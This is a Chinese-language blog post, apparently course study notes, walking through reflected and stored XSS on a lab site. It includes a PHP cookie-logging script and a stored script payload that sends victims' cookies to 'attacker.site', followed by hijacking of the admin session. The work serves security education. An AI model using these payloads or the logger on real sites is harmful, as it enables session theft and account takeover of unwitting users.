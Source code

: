 ```yaml
---
layout: post
title: "XSS"
date: "2022-06-29"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - Web Attacks
---
```


# XSS
目标网站：`xssvictim.site`

首先导航网站，寻找可能的漏洞的注入点。

在网站顶端有SEARCH字段，通常是我们测试的首要目标。

在BLOG页面，网站允许用户在制定的发布内容下面留言。

```
User:john-Object:Wow
They will regret this!

User:admin-Object:Great!
This is really nice post.

You need to be logged to write a comment!
```
现在，我们没有登录，所以不能评论。

## 使用反射性XSS向受害者打印消息
首先测试搜索框，看它是如何工作的。

输入android，看到有一个发布内容满足我们的查询。看查询结果的顶端，似乎我们的搜索输入也打印在了结果页面，这是web应用程序很常见的行为。

现在我们要做的是检查输入在被打印在页面之前是否被过滤。

```
<h1>Hi</hi>
```

似乎输入一点也没有被过滤。检查源码。

下一步是检查是否Javascipt代码也可以正常工作。

```
<script>alert('XSS');</script>
```

这证明应用程序并没有过滤任何输入，它有反射性XSS漏洞。

```
<script>alert(document.cookie)</script>
```

我们可以构造payload，然后让受害者点击包含payload的URL。

## 使用存储型XSS窃取admin的cookie,并且用他的session登录
我们可以构造javascript payload，获取受害者的cookie，并且发回给我们。

受害者登录了应用程序，我们能够获取他的cookies，我们能够冒充他的session，通过修改浏览器中的session cookie。

在这样做之前，首先检查BLOG中的评论，这也是有漏洞的。

点击LOGIN进行登录。首先，我们需要登录来写评论。我们以attacker的身份登录。

再次打开BLOG页面，现在，我们可以向应用程序中插入评论。

|Object|Enter your comment here|结果|
|---|---|---|
|Hi|Test||
|`<h1>Hi</h1>`|test2|Object的输入被过滤，没有被解释为HTML标签|
|Test3|`<h1>test3</h1>`|应用程序解释的h1标签|
|test4|`<script>alert('xss');</script>`|浏览器出现了弹窗。因为是存储型XSS，这个消息会在我们每次加载页面的时候出现。使用我们删除这个post，否则，每次都会弹窗。|

现在我们知道该应用既有反射性XSS，又有存储型XSS，让我们尝试利用该应用程序来窃取用户的cookies。

尝试在消息中打印cookie

|Object|Enter your comment here|结果|
|---|---|---|
|test5|`<script>alert(document.cookie);</script>`|cookie出现在了弹窗中|

窃取访问该页面用户的cookie。我们不想让受害者看见弹窗，所以不会使用alert函数。

我们要做的是，构建能发送cookie信息到我们拥有和控制的网站的exploit。

在看javascript payload之前，首先让我们检查攻击者服务器`attacker.site`上的代码`get.php`，这是我们用来将cookie存储在我们机器上的脚本。

```php
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

$fp = fopen('jar.txt', 'a');

fwrite($fp, $ip.' '.$browser."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])." \n\n");
fclose($fp);
?>
```

当然，我们打在打开jar.txt，可以看到它是空的：

```
attacker.site/jar.txt
```

然后我们在浏览器中打开这个脚本，看看会发生什么：

```
attacker.site/get.php?test=hereismydata
```

当页面加载，参数的内容会被保存在jar.txt文件中，和我们设置的其他信息一起。

所以，当我们打开`attacker.site/jar.txt`，可以看到如下字符串：

```
192.168.3.22 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.3.0
test=hereismydata
```

既然我们在攻击者的网站上已经有了可以工作的脚本，让我们创建将插入到评论表单payload。

这个简单的脚本创建新的image对象，然后将图片地址设置为我们的网站链接。有了这个简单的代码，我们触发受害者的浏览器请求攻击者页面，并且发送cookie。

我们用escape函数来避免特殊字符可能破坏我们的链接。受害者完全不知道发生了什么。

```html
<script>var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
```

我们将这个脚本插入评论区。

由于网页会自动重新加载，如果它起作用了。我们需要设置将cookie存储在jar.txt文件中。

|Object|Enter your comment here|
|---|---|
|Hi all|This is a very nice post!`<script>var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>`|

刷新`attacker.site/jar.txt`：

```
192.168.3.22 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.3.0
test=hereismydata

192.168.3.22 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.3.0
cookie=PHPSESSID=b647jora2blimcguvoubamlb82
```

所以这个exploit，每次用户加载blog.php页面，他的cookie会被发送到我们的脚本，我们能够读取它们。

打开一个`New Private Window`。让我们站在受害者浏览器的角度打开网站。

访问`xssvictim.site`，LOGIN。我们将以admin的身份登录，然后我们浏览blog.php页面。

我们可以看到，在受害者浏览器中没有发生任何奇怪的事情。所以用户并不知道发生了什么。

让我们返回jar.txt文件，看看我们收集到了什么。访问`attacker.site/jar.txt`。

```
192.168.3.22 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.3.0
test=hereismydata

192.168.3.22 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.3.0
cookie=PHPSESSID=b647jora2blimcguvoubamlb82

192.168.3.22 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.3.0
cookie=PHPSESSID=e6unaoterp5rlbjhr3i4l73bi5
```
我们成功的窃取了admin的cookie，现在我们需要在web应用程序假冒他的session，这意味着，我们会以admin的身份登录。

让我们复制该值，然后回到攻击者的浏览器。使用Firebug添加cookie，用将值替换成管理员的cookie。

我们当前登录身份是attacker，重新加载页面。可以看到，我们被身份验证为admin，因此在顶栏，我们可以看到ADMIN PAGE的新链接。

我们可以像往常一样导航web应用程序，以admin的身份登录。



